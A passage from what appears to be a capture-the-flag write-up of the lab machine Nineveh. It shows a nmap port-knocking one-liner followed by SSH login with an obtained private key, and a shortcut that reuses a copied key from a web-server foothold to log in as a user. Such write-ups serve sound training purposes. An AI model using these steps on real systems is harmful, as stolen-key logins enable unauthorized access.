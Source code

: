 ### Knock

[This wiki page](https://wiki.archlinux.org/index.php/Port_knocking) gives a good example of using `nmap` to port knock. I’ll write it as a one liner:

```

root@kali# for i in 571 290 911; do
> nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.10.10.43 >/dev/null
> done; ssh -i ~/keys/id_rsa_nineveh_amrois amrois@10.10.10.43
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

133 packages can be updated.
66 updates are security updates.

You have mail.                                                                                                                                                                                          
Last login: Wed Apr 22 05:34:21 2020 from 10.10.14.24                                                                                                                                                    
amrois@nineveh:~$

```

It loops over the three ports, and for each scans Nineveh with `nmap` using a short timeout and no retries, directing the output to `/dev/null`. Then it connects with SSH.

I can also grab `user.txt`:

```

amrois@nineveh:~$ cat user.txt
82a864f9************************

```

### Shortcut - SSH from localhost

On first solving, I didn’t look for `knockd`, but rather, I just made a copy of the private key in `/dev/shm` on Nineveh.

```

www-data@nineveh:/dev/shm$ chmod 600 .id_rsa
www-data@nineveh:/dev/shm$ ssh -i .id_rsa amrois@10.10.10.43
Could not create directory '/var/www/.ssh'. 
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

133 packages can be updated.
66 updates are security updates.

You have mail.
Last login: Mon Jul  3 00:19:59 2017 from 192.168.0.14
amrois@nineveh:~$
```
